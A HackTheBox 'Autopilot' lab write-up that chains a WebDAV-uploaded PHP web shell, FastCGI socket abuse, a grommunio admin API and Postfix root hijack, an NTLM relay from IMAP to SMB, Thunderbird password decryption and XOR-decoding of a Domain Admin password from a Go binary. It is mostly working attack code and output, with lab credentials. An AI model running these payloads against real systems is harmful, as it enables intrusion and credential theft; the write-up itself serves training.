

# Autopilot - HackTheBox Writeup

## Introduction

**Autopilot** is an Insane Windows machine whose external surface is a single HTTPS service: a **grommunio** collaboration stack running on a Linux appliance. The appliance exposes grommunio Web, grommunio Files (Nextcloud), grommunio DAV, EWS and ActiveSync behind nginx. Starting from the provided HR credentials, the mailbox contains a promotion thread that identifies the account-provisioning workflow and two additional users, but no direct mailbox access.

The initial break is a **Nextcloud WebDAV upload** combined with an nginx location that serves the Nextcloud data directory and executes PHP there. An authenticated upload therefore becomes a shell as `grofiles`. From that foothold, the gromox PHP-FPM socket (mode `0666`) exposes the MySQL credentials, and resetting the grommunio admin password allows the local admin API to be abused. The API's Postfix `dbconf` commit hook turns a configuration update into root code execution, yielding the Linux `user.txt`.

The internal `172.16.20.0/24` network contains the Windows DC. The workstation WS02 does not require SMB signing, so its recurring IMAP NTLM authentication is relayed to its SMB service; the relayed session exposes a Thunderbird profile whose saved login makes Stephanie a local administrator on WS02. A Go helper, `runas.exe`, embeds the Domain Admin password with a repeating XOR. The recovered DA credential gives `C$` access to the DC and the Windows `root.txt`.

-----

## 1. Initial Enumeration

### 1.1 Reconnaissance

#### 1.1.1 Network Scanning

A full TCP sweep finds only one exposed port:

```bash
nmap -p- --min-rate 2000 -T4 -n -Pn -oA scans/TCP-all autopilot.htb
```

```text
PORT    STATE SERVICE
443/tcp open  https
```

A targeted service scan identifies nginx and the grommunio redirect:

```bash
nmap -sV -sC -p443 -n -Pn autopilot.htb
```

```text
PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http nginx
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Did not follow redirect to https://autopilot.htb/web/
| ssl-cert: Subject: commonName=grommunio.autopilot.htb
| Subject Alternative Name: DNS:grommunio.autopilot.htb,
|   DNS:autodiscover.autopilot.htb, DNS:mail.autopilot.htb
| Issuer: DC=htb, DC=autopilot, CN=autopilot-DC01-CA
```

  - ICMP replies use **TTL 127**, confirming a Windows host at the network edge.
  - The TLS certificate is issued by `autopilot-DC01-CA` and exposes the AD domain `autopilot.htb` and the DC `autopilot-DC01`.
  - The remaining 65,534 TCP ports are filtered from the outside; the internal network is reached later through the Linux appliance.

#### 1.1.2 Web Enumeration

The root redirects to the grommunio Web login:

```bash
curl -kis https://autopilot.htb/
```

```text
HTTP/2 301
location: https://autopilot.htb/web/
```

The main exposed applications are:

| Path | Application |
|------|-------------|
| `/web/` | grommunio Web **5.2.13.g42e10393a** |
| `/files/` | grommunio Files / **Nextcloud 34.0.4** |
| `/dav/` | grommunio DAV (SabreDAV 4.4.0) |
| `/EWS/Exchange.asmx` | Exchange Web Services |
| `/autodiscover/autodiscover.xml` | Outlook autodiscover |
| `/Microsoft-Server-ActiveSync` | ActiveSync (returns HTTP 500) |

The application version is exposed directly:

```bash
curl -ks https://autopilot.htb/web/version
```

```text
5.2.13.g42e10393a
```

The DAV endpoint also leaks its PHP runtime:

```bash
curl -ksI https://autopilot.htb/dav/
```

```text
HTTP/2 401
server: nginx
x-powered-by: PHP/8.2.30
```

> **Note:** PHP 8.2.30 is below the 8.2.35 fix for **CVE-2026-109618 / CVE-2026-109619 ("PHP2Shell")**. That was a viable alternative path, but the WebDAV/data-directory misconfiguration described below provided a direct foothold and was used instead.

### 1.2 Initial Access — grommunio Web

The HTB page provides an HR account:

| Username | Password |
|----------|----------|
| `deborah.hernandez` | `8F5cgp@tC8g@` |

The credentials authenticate against grommunio Web:

```bash
curl -kis -c jar.txt -b jar.txt \
  --data-urlencode 'username=deborah.hernandez' \
  --data-urlencode 'password=8F5cgp@tC8g@' \
  'https://autopilot.htb/web/?logon'
```

```text
HTTP/2 303
location: /web/
set-cookie: webapp_title=deborah.hernandez; ...
set-cookie: __Secure-GROMMUNIO_WEB=...
```


#### 1.2.1 The Promotion Thread

The mailbox contains a single thread. The inbox message is a reply from **Joshua Harris** to Deborah, quoting Deborah's original message:

```text
From: joshua.harris@autopilot.htb
To: deborah.hernandez@autopilot.htb
Subject: Re: Congratulations on the promotion!
Date: 2026-07-15T19:19:03Z

Hi Deborah,

Thank you so much! I'm really excited to get to assist where I can

Regards,

Joshua Harris
IT Support
Autopilot Solutions
joshua.harris@autopilot.htb
+1 (555) 013-4728
https://autopilot.htb
1 Rocket Rd
Brownsville, TX 78521

--------------------Original message--------------------
From: deborah.hernandez@autopilot.htb <deborah.hernandez@autopilot.htb>
Sent: Wednesday, July 15, 2026 19:12
To: joshua.harris <joshua.harris@autopilot.htb>
Cc: stephanie.lewis <stephanie.lewis@autopilot.htb>
Subject: Congratulations on the promotion!

Good morning Josh,

Congratulations on your promotion! Stephanie will provision your new account
sometime today so look for her e-mail once she arrives into the office this
morning.

She will provide more details at that time.

Once again, congratulations and if you have any questions please feel free
to reach out.

Regards,

Deborah Hernandez
Human Resources
Autopilot Solutions
deborah.herandez@autopilot.htb
+1 (555) 013-4728
https://autopilot.htb
1 Rocket Rd
Brownsville, TX 78521
```



This identifies the two accounts involved in the provisioning workflow:

| User | Role |
|------|------|
| `joshua.harris` | IT Support; newly promoted; account being provisioned |
| `stephanie.lewis` | Provisions accounts and sends the credentials |

The GAL contains 45 addresses, but EWS impersonation and delegate access to the other mailboxes are denied. The calendars and scheduling inboxes are empty, and ActiveSync is not usable. The mailbox is a narrative hint rather than the path to the next credential.

#### 1.2.2 Nextcloud Files

The same credentials work on grommunio Files and DAV via HTTP Basic:

```bash
curl -ks -u 'deborah.hernandez:8F5cgp@tC8g@' \
  -H 'OCS-APIRequest: true' \
  'https://autopilot.htb/files/ocs/v2.php/cloud/user?format=json'
```

```json
{"ocs":{"data":{"id":"deborah.hernandez","backend":"OCA\\UserExternal\\BasicAuth", ...}}}
```

Deborah's Nextcloud account has no files and no shares, but the Nextcloud settings advertise a WebDAV endpoint:

```text
https://grommunio.autopilot.htb/files/remote.php/dav/files/deborah.hernandez
```

That endpoint — and the data directory behind it — is the way in.

-----

## 2. Foothold — Nextcloud WebDAV Upload

### 2.1 Uploading a PHP File

Nextcloud exposes the authenticated WebDAV endpoint at `/files/remote.php/webdav/`. A small PHP command shell is uploaded with Deborah's credentials:

```bash
cat > shell.php <<'PHP'
<?php
if (isset($_GET['cmd'])) {
    echo shell_exec($_GET['cmd']);
}
PHP

curl -k -u 'deborah.hernandez:8F5cgp@tC8g@' \
  -T shell.php \
  'https://autopilot.htb/files/remote.php/webdav/shell.php' \
  -w '\nHTTP Status: %{http_code}\n'
```

```text
HTTP Status: 201
```

The upload succeeds. The file is stored in the Nextcloud data directory:

```text
/var/lib/grommunio-files/data/deborah.hernandez/files/shell.php
```

### 2.2 Executing the Upload

nginx also exposes the data directory under `/files/data/` and passes `.php` files there to PHP-FPM. The uploaded shell therefore executes as the `grofiles` pool user. The endpoint is assigned to a shell variable because every subsequent target command is sent through it:

```bash
SHELL='https://autopilot.htb/files/data/deborah.hernandez/files/shell.php'

curl -k -G "$SHELL" --data-urlencode 'cmd=id'
```

```text
uid=462(grofiles) gid=462(grofiles) groups=462(grofiles)
```

The `cmd` parameter runs arbitrary commands:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=hostname; id'
```

```text
grommunio
uid=462(grofiles) gid=462(grofiles) groups=462(grofiles)
```

**Why it works:** Nextcloud stores user uploads under `data/<user>/files`. That directory is supposed to be outside the web root and non-executable. In this deployment, nginx serves `/files/data/` directly and routes `.php` there to the PHP-FPM pool — an authenticated file upload becomes remote code execution.

-----

## 3. Linux Privilege Escalation

> **Execution context:** there is no interactive reverse shell in this chain. The uploaded `shell.php` is the command interface: commands are sent as HTTP GET requests to `/files/data/deborah.hernandez/files/shell.php?cmd=...` and run on the Linux appliance as `grofiles`. The gromox reader is a FastCGI request to `php-gromox-fpm.sock`, so it runs as `gromox`. The MySQL and admin-API commands run as `grofiles` on the appliance (the API is bound to `[::1]:8080`), and the `/usr/bin/rootbash -p -c` commands run as root. The Linux host could not reach the operator VPN, so tools were transferred through the Nextcloud WebDAV endpoint instead of a reverse shell.

### 3.1 gromox Config → MySQL Credentials

The web shell runs as `grofiles`, which cannot read the gromox database configuration:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=cat /etc/gromox/mysql_adaptor.cfg'
```

```text
cat: /etc/gromox/mysql_adaptor.cfg: Permission denied
```

The local FPM listeners are visible in `/proc/net/unix` even though `/run/php-fpm` is not listable by `grofiles`:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=ss -lx | grep -E "php|gromox"'
```

```text
u_str LISTEN 0 512 /run/php-fpm/php-gromox-fpm.sock ...
u_str LISTEN 0 512 /run/php-fpm/php-grommunio-dav-fpm.sock ...
u_str LISTEN 0 512 /run/php-fpm/php-grommunio-files-fpm.sock ...
u_str LISTEN 0 512 /run/php-fpm/php-grommunio-sync-fpm.sock ...
u_str LISTEN 0 512 /run/php-fpm/php-grommunio-web-fpm.sock ...
```

`ls` on the socket directory is denied, so the socket's ownership and mode are read directly:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=ls -la /run/php-fpm/; stat -c "%A %U:%G %n" /run/php-fpm/php-gromox-fpm.sock'
```

```text
ls: cannot open directory '/run/php-fpm/': Permission denied
srw-rw-rw- gromox:gromox /run/php-fpm/php-gromox-fpm.sock
```

The matching pool configuration is world-readable. Listing the pool directory identifies `gromox.conf`; the `grep` shows the relevant lines before the full file is displayed:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=ls -la /etc/php8/fpm/php-fpm.d/; grep -nE "^\[|^user|^group|^listen|^pm|^php_admin_value" /etc/php8/fpm/php-fpm.d/gromox.conf'
```

```text
-rw-r--r-- 1 root root 522 Oct 12 00:36 gromox.conf
...
1:[gromox]
2:user = gromox
3:group = gromox
4:listen = /run/php-fpm/php-gromox-fpm.sock
5:listen.owner = gromox
6:listen.group = gromox
7:listen.mode = 0666
8:pm = dynamic
9:pm.max_children = 100
10:pm.start_servers = 1
11:pm.min_spare_servers = 1
12:pm.max_spare_servers = 1
14:php_admin_value[error_log] = /var/log/gromox/php-fpm.log
15:php_admin_value[memory_limit] = 256M
18:php_admin_value[session.save_path] = /var/tmp/gromox-fpm
```

The full pool file confirms the values:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=cat /etc/php8/fpm/php-fpm.d/gromox.conf'
```

```ini
[gromox]
user = gromox
group = gromox
listen = /run/php-fpm/php-gromox-fpm.sock
listen.owner = gromox
listen.group = gromox
listen.mode = 0666
pm = dynamic
pm.max_children = 100
pm.start_servers = 1
pm.min_spare_servers = 1
pm.max_spare_servers = 1
catch_workers_output = yes
php_admin_value[error_log] = /var/log/gromox/php-fpm.log
php_admin_value[memory_limit] = 256M
; Some distros may default to a directory that is not writable by user=gromox
; Reset it back.
php_admin_value[session.save_path] = /var/tmp/gromox-fpm
```

Any local user who can reach the Unix socket can ask PHP-FPM to execute a script in the `gromox` context. The following FastCGI client is written to `/tmp` through the web shell:

```python
#!/usr/bin/env python3
import socket, struct

def fcgi_request(socket_path, php_file):
    env = {
        b"GATEWAY_INTERFACE": b"CGI/1.1",
        b"SERVER_SOFTWARE": b"PHP-FPM",
        b"REMOTE_ADDR": b"127.0.0.1",
        b"SERVER_PROTOCOL": b"HTTP/1.1",
        b"REQUEST_METHOD": b"GET",
        b"SCRIPT_FILENAME": php_file.encode(),
        b"SCRIPT_NAME": b"/read.php",
        b"QUERY_STRING": b"",
        b"REQUEST_URI": b"/read.php",
        b"DOCUMENT_ROOT": b"/",
        b"CONTENT_LENGTH": b"0",
    }
    params = b""
    for k, v in env.items():
        params += struct.pack("!B", len(k)) + struct.pack("!B", len(v)) + k + v

    def packet(p_type, req_id, content):
        padding = b"\x00" * ((8 - (len(content) % 8)) % 8)
        return struct.pack("!BBHHBB", 1, p_type, req_id, len(content), len(padding), 0) + content + padding

    req_id = 1
    payload = packet(1, req_id, struct.pack("!HB5x", 1, 0))
    payload += packet(4, req_id, params)
    payload += packet(4, req_id, b"")
    payload += packet(5, req_id, b"")

    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect(socket_path)
    s.sendall(payload)
    response = b""
    while True:
        data = s.recv(4096)
        if not data:
            break
        response += data
    s.close()
    body = response.decode("utf-8", errors="ignore")
    if "\r\n\r\n" in body:
        body = body.split("\r\n\r\n", 1)[1]
    print(body)

fcgi_request("/run/php-fpm/php-gromox-fpm.sock", "/tmp/read.php")
```

The reader script simply prints the configuration:

```php
<?php echo file_get_contents("/etc/gromox/mysql_adaptor.cfg"); ?>
```

The shell script bundles the reader and the FastCGI client, writes both to `/tmp`, and runs the client. It is sent through the same web-shell endpoint:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd@fcgi_read.sh'
```

```text
mysql_username=grommunio
mysql_password=gDq6z9YVe4nyNRe5
mysql_dbname=grommunio
schema_upgrade=host:grommunio.autopilot.htb
```

The `gromox` pool user can read the config; the `0666` socket is the privilege boundary that should not be crossed.

### 3.2 Local Admin API and Password Reset

The grommunio web front end talks to a local admin service. Its endpoint is defined in the web configuration, and the listener is visible in the process table:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=grep -R "ADMIN_API_ENDPOINT" /usr/share/grommunio-web/defaults.php /usr/share/grommunio-web/config.php; ss -lntp | grep 8080; curl -s http://[::1]:8080/api/v1/status'
```

```text
/usr/share/grommunio-web/defaults.php:if (!defined('ADMIN_API_ENDPOINT')) {
/usr/share/grommunio-web/defaults.php:	define('ADMIN_API_ENDPOINT', 'http://[::1]:8080/api/v1/');
/usr/share/grommunio-web/defaults.php:	define('ADMIN_API_STATUS_ENDPOINT', ADMIN_API_ENDPOINT . 'status');
/usr/share/grommunio-web/config.php:	define('ADMIN_API_ENDPOINT', 'http://[::1]:8080/api/v1/');
LISTEN 0      512          0.0.0.0:8080       0.0.0.0:*
LISTEN 0      512             [::]:8080          [::]:*
{"database":true,"message":"API is operational","oidc":false,"tasq":true}
```

The service is up and its database is reachable. The `admin` password is not known, but the MySQL `users` table stores the grommunio accounts; the `id=0` row is the built-in `admin`. A new SHA-512 crypt hash for a known password is generated on the operator machine (it can also be generated inside the web shell):

```bash
openssl passwd -6 -salt AutopilotSalt 'AutopilotPwn2026!'
```

```text
$6$AutopilotSalt$D/jOC7j8eH9Ci9WtMwrmciV9.s1IU7ZsFmjiC.sDiJUaNi1z.kFr327y5KOMhVK8Znll7ppYpO0RyeTpojzh71
```

The SQL update and the verification query are packaged in `admin_reset.sh`. The script is sent to the web shell with curl's `--data-urlencode 'cmd@file'` form:

```bash
# admin_reset.sh — executed on the appliance through the web shell
cat > /tmp/update.sql <<'SQL'
UPDATE users
SET password='$6$AutopilotSalt$D/jOC7j8eH9Ci9WtMwrmciV9.s1IU7ZsFmjiC.sDiJUaNi1z.kFr327y5KOMhVK8Znll7ppYpO0RyeTpojzh71'
WHERE id=0;
SQL

mysql -u grommunio -p'gDq6z9YVe4nyNRe5' grommunio < /tmp/update.sql
mysql -u grommunio -p'gDq6z9YVe4nyNRe5' grommunio -e \
  "SELECT id,username,password FROM users WHERE id=0;"
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd@admin_reset.sh'
```

```text
id  username  password
0   admin     $6$AutopilotSalt$D/jOC7j8eH9Ci9WtMwrmciV9.s1IU7ZsFmjiC.sDiJUaNi1z.kFr327y5KOMhVK8Znll7ppYpO0RyeTpojzh71
```

The API listens on loopback, but it is reachable from the appliance. The login endpoint accepts a form-encoded username and password and returns a JWT plus a CSRF token. The Python probe is written to `/tmp/admin_login.py` through the web shell and executed with:

```python
import urllib.request, urllib.parse, json

API = "http://[::1]:8080/api/v1"
data = urllib.parse.urlencode({
    "user": "admin",
    "pass": "AutopilotPwn2026!",
}).encode()
response = json.loads(urllib.request.urlopen(
    urllib.request.Request(API + "/login", data=data), timeout=15
).read())
print(response["csrf"])
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/admin_login.py'
```

```text
LkmoBkTKY5OvZZjs
```

### 3.3 Admin API → Postfix `dbconf` → root

The API exposes its configuration tree. A second probe logs in with the new admin password and walks `/system/dbconf/`:

```python
# admin_dbconf.py
import urllib.request, urllib.parse, json

API = "http://[::1]:8080/api/v1"
data = urllib.parse.urlencode({"user": "admin", "pass": "AutopilotPwn2026!"}).encode()
jwt = json.loads(urllib.request.urlopen(
    urllib.request.Request(API + "/login", data=data), timeout=15
).read())
headers = {
    "Cookie": "grommunioAuthJwt=" + jwt["grommunioAuthJwt"],
    "X-CSRF-TOKEN": jwt["csrf"],
}

for path in ["/system/dbconf/", "/system/dbconf/grommunio-dbconf/",
             "/system/dbconf/grommunio-dbconf/postfix/", "/system/dbconf/commands"]:
    print("=== " + path + " ===")
    req = urllib.request.Request(API + path, headers=headers)
    print(urllib.request.urlopen(req, timeout=15).read().decode())
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/admin_dbconf.py'
```

```text
=== /system/dbconf/ ===
{"data":["grommunio-admin","grommunio-dbconf","postfix"]}

=== /system/dbconf/grommunio-dbconf/ ===
{"data":["postfix"]}

=== /system/dbconf/grommunio-dbconf/postfix/ ===
{"data":{"commit_file":"#POSTCONF"}}

=== /system/dbconf/commands ===
{"file":["#POSTCONF","sudo postconf -e $FILE_S && systemctl reload postfix"],"key":["#POSTCONF","postconf -e $ENTRY"],"service":["#RELOAD","#RESTART","systemctl restart $SERVICE","systemctl reload $SERVICE"]}
```

The `grommunio-dbconf` service manages Postfix's `main.cf`. Its Postfix entry uses the `#POSTCONF` commit file, and the command table expands that marker to:

```text
sudo postconf -e $FILE_S && systemctl reload postfix
```

That gives two useful primitives:

1. `postconf -e` writes arbitrary `main.cf` directives.
2. `systemctl reload postfix` runs the `postfix` command as **root**, and that command executes `$daemon_directory/postfix-script`.

The exploit sets `daemon_directory` to `/dev/shm`, plants a malicious `postfix-script` there, and triggers a commit. The script copies `/bin/bash` to a SUID binary:

```bash
#!/bin/bash
cp /bin/bash /usr/bin/rootbash
chmod +s /usr/bin/rootbash
```

The complete admin API sequence is written to `/tmp/admin_root.py` through the web shell and executed with:

```python
import urllib.request, urllib.parse, json, os, subprocess

API = "http://[::1]:8080/api/v1"
data = urllib.parse.urlencode({
    "user": "admin",
    "pass": "AutopilotPwn2026!",
}).encode()
jwt = json.loads(urllib.request.urlopen(
    urllib.request.Request(API + "/login", data=data), timeout=15
).read())
headers = {
    "Cookie": "grommunioAuthJwt=" + jwt["grommunioAuthJwt"],
    "X-CSRF-TOKEN": jwt["csrf"],
    "Content-Type": "application/json",
}

def put(path, payload):
    req = urllib.request.Request(
        API + path,
        data=json.dumps({"data": payload}).encode(),
        headers=headers,
        method="PUT",
    )
    print(urllib.request.urlopen(req, timeout=20).read().decode())

def post(path):
    req = urllib.request.Request(
        API + path,
        data=b"{}",
        headers=headers,
        method="POST",
    )
    print(urllib.request.urlopen(req, timeout=20).read().decode())

# 1. Plant the root script and make it executable.
with open("/dev/shm/postfix-script", "w") as fp:
    fp.write("#!/bin/bash\ncp /bin/bash /usr/bin/rootbash\nchmod +s /usr/bin/rootbash\n")
os.chmod("/dev/shm/postfix-script", 0o755)

# 2. Install the Postfix commit hook.
put("/system/dbconf/grommunio-dbconf/postfix/", {"commit_file": "#POSTCONF"})

# 3. Point daemon_directory at /dev/shm; the update triggers the hook.
put("/system/dbconf/postfix/main.cf/", {"daemon_directory": "/dev/shm"})

# 4. Restart/reload Postfix; the malicious postfix-script runs as root.
post("/system/dashboard/services/postfix.service/restart")
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/admin_root.py'
```

The dbconf update may return `Success.` even though the subsequent `systemctl reload postfix` fails (the original postfix daemons are no longer in `/dev/shm`). The important side effect has already happened:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=/usr/bin/rootbash -p -c "id"'
```

```text
uid=462(grofiles) gid=462(grofiles) euid=0(root) egid=0(root)
```

### 3.4 User Flag

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=/usr/bin/rootbash -p -c "cat /root/user.txt"'
```

```text
ef23b19e<REDACTED>
```

The Linux grommunio host is now fully controlled. The next step is the internal Windows network.

-----

## 4. Windows Pivot — Domain Controller

### 4.1 Internal Network and the Relay Target

The Python helpers in this section are transferred to the appliance through the same Nextcloud WebDAV endpoint used for the initial tooling upload; the `curl` blocks show how they are executed.

The appliance has a second network interface on `172.16.20.10/24`:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=ip -br a; ip route; ip neigh'
```

```text
eth0   UP   172.16.20.10/24
default via 172.16.20.1 dev eth0
172.16.20.1  dev eth0 lladdr 00:15:5d:32:91:00 REACHABLE
172.16.20.15 dev eth0 lladdr 00:15:5d:32:91:02 REACHABLE
```

The DNS server on `172.16.20.1` resolves the AD domain and the internal hosts:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=cat /etc/resolv.conf; getent hosts autopilot.htb; getent hosts 172.16.20.10; getent hosts 172.16.20.15'
```

```text
nameserver 172.16.20.1
172.16.20.1     autopilot.htb
172.16.20.10    grommunio.autopilot.htb grommunio
172.16.20.15    WS02.autopilot.htb
```

| Host | Address | Role |
|------|---------|------|
| grommunio | `172.16.20.10` | Linux mail/Files appliance; rooted |
| DC01 | `172.16.20.1` | `autopilot.htb`; DNS, LDAP, Kerberos, SMB, WinRM |
| WS02 | `172.16.20.15` | Windows 11 workstation; Stephanie's mail client |

A TCP sweep of the DC confirms the AD stack:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=for p in 445 139 135 5985 88 389 636 53; do timeout 3 bash -c "echo > /dev/tcp/172.16.20.1/$p" 2>/dev/null && echo "$p OPEN" || echo "$p CLOSED"; done'
```

```text
445 OPEN
139 OPEN
135 OPEN
5985 OPEN
88 OPEN
389 OPEN
636 OPEN
53 OPEN
```

The DC is reachable over SMB and WinRM. WS02 is the more useful target because its mail client authenticates to the grommunio IMAP service. The SMB negotiation shows which host accepts relayed NTLM. Impacket reports the server's signing requirement directly:

```python
# smb_signing.py
from impacket.smbconnection import SMBConnection

for host in ("172.16.20.1", "172.16.20.15"):
    conn = SMBConnection(host, host, sess_port=445, timeout=5)
    print(host, "dialect:", conn.getDialect(), "signing required:", conn.isSigningRequired())
    conn.close()
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/smb_signing.py'
```

```text
172.16.20.1 dialect: 768 signing required: True
172.16.20.15 dialect: 768 signing required: False
```

DC01 enforces SMB signing; WS02 does not. That selects WS02 as the relay target. The relay does not require an inbound connection to WS02: the workstation initiates the authentication.

### 4.2 Relaying the IMAP NTLM Authentication

The grommunio IMAP service listens on TCP 143. Watching the interface shows WS02 reconnecting on a timer:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=timeout 12 tcpdump -ni any "tcp port 143" -c 6'
```

```text
IP 172.16.20.15.49832 > 172.16.20.10.143: Flags [S], seq ...
IP 172.16.20.10.143 > 172.16.20.15.49832: Flags [S.], seq ...
IP 172.16.20.15.49832 > 172.16.20.10.143: Flags [.], ack ...
```

The client negotiates `STARTTLS` and authenticates with `AUTHENTICATE NTLM`. NTLM is a challenge-response protocol: the server sends a challenge, and the client returns a response derived from its password hash. If the same challenge is forwarded to WS02's SMB service, WS02 cannot tell that the response was produced for a different service.

The capture server forwards the exchange in both directions:

```text
client      -> fake IMAP : AUTHENTICATE NTLM <type 1>
fake IMAP   -> broker    : type 1
broker      -> WS02 SMB  : type 1
WS02 SMB    -> broker    : type 2 challenge
broker      -> fake IMAP : type 2
fake IMAP   -> client    : type 2
client      -> fake IMAP : type 3 response
fake IMAP   -> broker    : type 3
broker      -> WS02 SMB  : type 3
WS02 SMB    -> broker    : authenticated session
```

The relay broker is started first. It listens on `127.0.0.1:1144` and connects to WS02's SMB service; the capture server forwards the NTLM messages to that local port:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=nohup python3 /tmp/imap_relay_broker.py >/tmp/relay.log 2>&1 &'
```

The real IMAP listener is then stopped for the capture window, and a fake listener takes its place with the same TLS certificate. The command runs the capture in the background and restores the service after the bounded window:

```bash
curl -k -G "$SHELL" \
  --data-urlencode 'cmd=nohup /usr/bin/rootbash -p -c "systemctl stop gromox-imap.service; timeout 180 python3 /tmp/imap_capture.py; systemctl start gromox-imap.service" >/tmp/capture.log 2>&1 &'
```

`/tmp/capture.log` holds the capture output; the relay result is written by the broker to `/tmp/relay.log`.

`imap_capture.py` completes STARTTLS, extracts the NTLM Type 1 and Type 3 messages, and forwards them to the relay broker. The broker uses Impacket's `SMBRelayClient` against `smb://172.16.20.15:445`. Its log records the identity and the relay result:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=cat /tmp/relay.log'
```

```text
TYPE1 identity=...
TYPE3 identity=AUTOPILOT/stephanie.lewis
RELAY SUCCESS identity=AUTOPILOT/stephanie.lewis target=WS02
```

The relayed identity is `stephanie.lewis`. WS02 accepts the session because SMB signing is not required and Stephanie is a local administrator on the workstation. The broker keeps the authenticated SMB session and uses it to read `C$`.

> The capture window is bounded, and the command restores `gromox-imap.service` afterward. The workstation retries on a timer, so the next authentication arrives without touching WS02.

### 4.3 Thunderbird Profile → Stephanie's Password

The relayed `C$` session is used to browse the administrative account's roaming profile. The profile directory is identified first:

```python
# imap_relay_broker.py — enumerate the profile directory
base = r"Users\da-stephanie.lewis\AppData\Roaming\Thunderbird\Profiles"
for f in relay.listPath("C$", base + "\\*"):
    print(f.get_longname())
```

```text
.
..
p3xppadz.default-release
```

The active profile is `p3xppadz.default-release`. It belongs to `da-stephanie.lewis`, the Windows session used on WS02; the saved login inside it belongs to Stephanie's ordinary account. The broker downloads the profile files:

```python
# imap_relay_broker.py — after RELAY SUCCESS
import os
out = "/tmp/p3xppadz.default-release"
os.makedirs(out, exist_ok=True)
profile = r"Users\da-stephanie.lewis\AppData\Roaming\Thunderbird\Profiles\p3xppadz.default-release"
for name in ("logins.json", "key4.db", "cert9.db", "prefs.js"):
    with open(os.path.join(out, name), "wb") as fp:
        relay.getFile("C$", profile + "\\" + name, fp.write)
    print(name)
```

```text
logins.json
key4.db
cert9.db
prefs.js
```

`logins.json` holds the encrypted entries; `key4.db` holds the key that protects them. Firepwd is uploaded through the same WebDAV endpoint and run against the downloaded profile:

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/firepwd/firepwd.py -d /tmp/p3xppadz.default-release'
```

```text
username: stephanie.lewis@autopilot.htb
password: NKUOji@4bAJw
```

The saved login is Stephanie's normal AD account. The relayed session already proved it is a local administrator on WS02; the password makes that access repeatable.

### 4.4 `runas.exe` → Domain Admin

With Stephanie's password recovered, WS02's `C$` is directly accessible. The `Videos` directory contains a helper:

```python
# ws02_runas.py
from impacket.smbconnection import SMBConnection

conn = SMBConnection("172.16.20.15", "172.16.20.15", sess_port=445)
conn.login("stephanie.lewis", "NKUOji@4bAJw", "AUTOPILOT")
for f in conn.listPath("C$", "Users\\stephanie.lewis\\Videos\\*"):
    print(f.get_longname())
with open("/tmp/runas.exe", "wb") as fp:
    conn.getFile("C$", "Users\\stephanie.lewis\\Videos\\runas.exe", fp.write)
print("downloaded /tmp/runas.exe")
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/ws02_runas.py'
```

```text
.
..
runas.exe
downloaded /tmp/runas.exe
```

The binary is pulled back through the Nextcloud WebDAV endpoint and analyzed on the operator host. It is a Go program:

```bash
go version -m ./runas.exe
```

```text
./runas.exe: go1.24.0
```

Go binaries keep symbol names unless stripped, so the two credential blobs are visible:

```bash
go tool nm -size ./runas.exe | grep -E 'main\.(main|passwordCipher|passwordKey|runAs)'
```

```text
1401b1910 32 D main.passwordCipher
1401b1930 32 D main.passwordKey
```

Each entry is a 32-byte Go slice header (`pointer`, `length`, `capacity`), not the blob itself. The headers are resolved to the 14-byte slices and XORed with a repeating key:

```python
import struct, pefile

pe = pefile.PE("runas.exe")
base = pe.OPTIONAL_HEADER.ImageBase

def read_va(address, size):
    return pe.get_data(pe.get_offset_from_rva(address - base), size)

def read_go_slice(header_address):
    pointer, length, _ = struct.unpack("<QQQ", read_va(header_address, 24))
    return read_va(pointer, length)

ciphertext = read_go_slice(0x1401b1910)
key = read_go_slice(0x1401b1930)
plaintext = bytes(value ^ key[i % len(key)] for i, value in enumerate(ciphertext))
print(plaintext.decode())
```

```text
krFqXfDI1y4331
```

The extracted blobs are:

```text
passwordCipher: a3 ca 4a b9 38 23 f0 7b 25 2c 30 38 63 a1
passwordKey:    c8 b8 0c c8 60 45 b4 32 14 55 04 0b 50 90
```

XOR-ing them yields:

```text
6b 72 46 71 58 66 44 49 31 79 34 33 33 31
k  r  F  q  X  f  D  I  1  y  4  3  3  1
```

